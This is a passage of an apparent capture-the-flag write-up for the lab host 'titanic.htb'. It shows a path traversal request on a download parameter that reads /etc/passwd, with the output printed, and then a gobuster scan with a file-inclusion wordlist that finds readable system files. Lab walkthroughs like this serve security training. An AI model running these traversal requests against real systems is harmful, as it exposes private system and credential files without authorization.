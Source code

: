 ```
drew@windows:/mnt/c/Users/DrewQ$ wget "http://titanic.htb/download?ticket=../../../etc/passwd"

Saving to: ‘download?ticket=..%2F..%2F..%2Fetc%2Fpasswd’

2025-02-22 22:08:11 (211 MB/s) - ‘download?ticket=..%2F..%2F..%2Fetc%2Fpasswd’ saved [1951/1951]

drew@windows:/mnt/c/Users/DrewQ$ cat download\?ticket\=..%2F..%2F..%2Fetc%2Fpasswd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
```

The Passwd files show the following users who have access to login to the system. 
```
developer:x:1000:1000:developer:/home/developer:/bin/bash
root:x:0:0:root:/root:/bin/bash
```

I attempted to find more local files that could possibly give me additional information about the host using `gobuster` but unfortunately I came up empty handed. 

```
drew@windows:~/tmp$ gobuster -w lfi-linux-list.txt -u "http://titanic.htb/download?ticket="

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://titanic.htb/download?ticket=/
[+] Threads      : 10
[+] Wordlist     : lfi-linux-list.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2025/02/22 22:20:25 Starting gobuster
=====================================================
//boot/grub/grub.cfg (Status: 200)
//etc/adduser.conf (Status: 200)
//etc/apache2/sites-enabled/000-default.conf (Status: 200)
//etc/bash.bashrc (Status: 200)
//etc/ca-certificates.conf.dpkg-old (Status: 200)
//etc/ca-certificates.conf (Status: 200)
//etc/crontab (Status: 200)
//etc/crypttab (Status: 200)
//etc/debconf.conf (Status: 200)
//etc/default/grub (Status: 200)
//etc/debian_version (Status: 200)
//etc/deluser.conf (Status: 200)
//etc/dhcp/dhclient.conf (Status: 200)
//etc/fstab (Status: 200)
//etc/fuse.conf (Status: 200)
//etc/group- (Status: 200)
//etc/group (Status: 200)
//etc/hdparm.conf (Status: 200)
//etc/host.conf (Status: 200)
```